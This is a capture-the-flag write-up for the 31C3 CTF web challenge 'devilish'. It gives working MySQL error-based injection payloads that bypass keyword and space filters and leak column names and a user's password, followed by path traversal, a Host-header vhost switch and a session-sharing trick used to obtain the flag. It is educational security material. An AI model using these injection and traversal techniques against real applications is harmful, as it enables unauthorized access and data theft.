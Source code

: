 ```yaml
---
layout: post
title: "31C3 CTF 'devilish' writeup"
categories: writeups 31c3-ctf
tags: exploitation
authors:
  - eboda
---
```


*devilish* was a web challenge worth 30 points at the 31C3 CTF.

![devilish page]({{ site.url }}/imgs/31c3-ctf_devilish_1.png)

## SQL injection
The website itself offered a login form as well as a member list and profile pages. The profile pages used a rewritten URL:

    http://188.40.18.70/PROFILE/55/Dracula

We found a SQL injection vulnerability by adding a backslash `\` either after the *55* or *Dracula*:

    http://188.40.18.70/PROFILE/55\/Dracula

This produces an error message in a Halloween-type font, so only checking the HTML source reveals it:

{% highlight HTML %}
<!--SELECT * FROM users WHERE id_user='55\' AND Us3rN4m3='Dracula'-->
<span class='styleX'>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'Dracula'' at line 1</span>
{% endhighlight %}

We are dealing with a MySQL dbms and the error is obviously due to the `'` getting escaped by the backslash. We also learned a table name: `users`.

However, the  actual  injection was rather tricky as a lot of SQL keywords were filtered, such as `UNION`, `GROUP`, `OR` (therefore blocking also infORmation_schema), `FILE`, `'`, `/*`, spaces and some more.
Note that in MySQL you can bypass a filter on spaces rather easily with either making use of paranthesis or by using ASCII chars, which MySQL interprets as spaces, such as %09 (tab), %0a (new line), %0b, %0c. %a0.

Without being able to access `information_schema` we could not retrieve the column names of table `users` in the traditional way.
First we checked the number of columns in users:

    http://188.40.18.70/PROFILE/55\/||(select*from(users))=1--%09-

The error output of this gave us the number of columns:

    Operand should contain 8 column(s)

Then we continued by using an error based injection with the polygon() method. Queries passed to polygon() are expanded and reflected in the error message:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select*from(users))x))--%09-

The output of this was the following:

    Illegal non geometric '(select 1 from (select `devilish`.`users`.`id_user` AS `id_user`,`devilish`.`users`.`Us3rN4m3` AS `Us3rN4m3`,`devilish`.`users`.`Em4iL4dR3Szz` AS `Em4iL4dR3Szz`,`devilish`.`users`.`S4cR3dT3xT0' value found during parsing

As you can see, we now had learned some column names already. However, the output was cut off since the length of error messages was limited. We could get more output by retrieving only a row of NULLs:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select*from(users)where(id_user=0))x))--%09-

Now the output for each column was shorter and we learned additional column names: 

    Illegal non geometric '(select 1 from (select NULL AS `id_user`,NULL AS `Us3rN4m3`,NULL AS `Em4iL4dR3Szz`,NULL AS `S4cR3dT3xT0Fm3`,NULL AS `MyPh0N3NumB3RHAHA`,NULL AS `Addr3Zz0F_tHi5_D3wD`,NULL AS `CHAR_LOL`,NULL AS' value found during parsing

Unfortunately, the last column name - the one for the password column :) - didn't fit into the error message, it was cut off at **NULL AS**.

Another way to leak column names is to join a table with itself:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`))f)--%09-

Note, that you need to give the second users table an alias, otherwise MySQL will complain about duplicate tables.
This gave us the first column: 

    Duplicate column name 'id_user'

To get the remaining column names, we have to trick MySQL into ignoring the columns we are not interested in. This can be done with the `USING` keyword. MySQL assumes that columns passed in a list after `USING` are present in both tables of the join and joins the table on them:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user))f)--%09-

And we get the second column:

    Duplicate column name 'Us3rN4m3'

We could retrieve all columns - including the last one - with this method:

    http://188.40.18.70/PROFILE/55\/||(select(1)from(select*from(users)join(users`x`)using(id_user,Us3rN4m3,Em4iL4dR3Szz,
    S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL)))f)--%09-

Which gave us the password column: 

    Duplicate column name 'P4sWW0rD_0F_M3_WTF'

Then with simple error based injection we retrieved a login:

    http://188.40.18.70/PROFILE/55\/||polygon((select(1)from(select(Us3rN4m3),(P4sWW0rD_0F_M3_WTF)from(users)where(id_user=55))x))--%09-
    

The output is the username and password of the user with id=55:

    Illegal non geometric '(select 1 from (select 'Dracula' AS `Us3rN4m3`,'ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz' AS `P4sWW0rD_0F_M3_WTF` from `devilish`.`users` where ('55' = 55)) `x`)' value found during parsing

    user: Dracula
    pass: ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz

## Directory Listings
When logging in, we were greeted with a page allowing us to browse some directories of the logged in user. However, with simple path traversal it was easy to manage to browse any directory on the server:

![devilish flag]({{ site.url }}/imgs/31c3-ctf_devilish_2.png)

We were able to access some of the source pages of the website in the following folder:

    http://188.40.18.70/ACCESS?action=browse&dir=../../__WebSiteFuckingPrivateContentNotForPublic666

We could read the LOGIN script, by simply navigating to the file with the browser:

{% highlight php %}
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice that the `$_SESSION` variable will be set to the `$_POST` variable here. We will need to use this fact later on.

Other directories of interest were /home/user and /home/devilish.local. The former  contained a `flag.txt`, but there was no way to read it, while the latter contained website files similar to the ones we already knew. Further investigation into the server revealed that in /etc/apache2/sites-enabled next to the default site, the devilish.local virtual host was enabled as well, serving a website out of the /home/devilish.local directory.

## Private portal

With simply changing the Host  header of the http request to `devilish.local`, we could then access the website presenting us with a login prompt to a private portal. Again we could fetch the source code of the login page:

{% highlight php %}
<?php
    if(@$_SESSION['is_ExclusiveMember']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(@$_POST['user']===$uLOGIN && @$_POST['pass']===$uPASSWORD){
            $_SESSION['is_ExclusiveMember']=1;
            header("location: ".$LINK);
            die();
        }else{
            $Error=1;
        }
    }
?>
{% endhighlight %}

Notice, that the session variable `is_ExclusiveMember` is used to mark a user as logged in. PHP sessions are not aware of virtual hosts by default and are shared between them. This means, we actually have control over the `$_SESSION` variable, as in the first LOGIN script, it is set to `$_POST`.

The things left to do are to login in the first LOGIN script and supply an additional POST parameter `is_ExclusiveMember=1`. Using the new session cookie, we then make a request to the private LOGIN script and get the flag displayed.

`Here's your secret 31c3_Th3r3_4R3_D3v1li5h_Th0ght5_ev3N_1N_th3_M0sT_4ng3l1c_M1nd5`

